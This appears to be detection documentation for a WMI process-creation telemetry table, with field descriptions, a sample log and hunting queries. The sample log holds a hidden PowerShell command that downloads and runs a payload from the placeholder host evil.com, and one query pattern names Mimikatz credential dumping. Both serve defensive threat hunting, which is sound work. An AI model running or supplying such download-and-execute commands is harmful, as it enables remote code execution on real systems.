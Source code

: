 ## WmiCreateProcess Table: WMI Process Creation Event

### 1. Table Name
**WmiCreateProcess**

---

### 2. Table Usage
This event is generated when Windows Management Instrumentation (WMI) is used to start a new process. Since WMI is a default service that allows users to remotely manage machines and automate tasks, adversaries often abuse it to install tools, steal credentials, and move laterally within a network. Monitoring this event is useful for tracking an adversary's activity and identifying the origin of an attack during an intrusion.

---

### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| CommandLine | The command line used to create the new process. | Windows Only |
| ImageFileName | The full path to the main executable for the created process. | Windows Only |
| UserName | The user name associated with the process creation. | Windows Only |
| RpcClientProcessId | The Process ID (PID) of the RPC client that initiated the request. | Windows Only |
| AuthenticationId | The Logon ID for the token that created the process. Common values include SYSTEM (999) and NETWORK_SERVICE (996). | Windows Only |
| TokenType | The type of token associated with the process, such as a Primary (1) or Impersonation (2) token. | Windows Only |

---

### 4. Sample Log Example

```json
{
  "ImageFileName": "C:\\Windows\\System32\\powershell.exe",
  "CommandLine": "powershell.exe -nop -w hidden -c \"IEX(New-Object Net.WebClient).DownloadString('[http://evil.com/payload.ps1](http://evil.com/payload.ps1)')\"",
  "UserName": "NT AUTHORITY\\SYSTEM",
  "RpcClientProcessId": "1234",
  "AuthenticationId": "999",
  "TokenType": "1"
}
```

### 5. Example Queries
```xql
// Find WMI process creation events involving PowerShell
event_simpleName=WmiCreateProcess ImageFileName="*\\powershell.exe"

// Search for specific commands executed via WMI, such as credential dumping tools
event_simpleName=WmiCreateProcess CommandLine="*Invoke-Mimikatz*"

// Find processes created via WMI by a specific user
event_simpleName=WmiCreateProcess UserName="*Admin*"

// Investigate WMI activity originating from a specific RPC client process ID
event_simpleName=WmiCreateProcess RpcClientProcessId="1234"
```
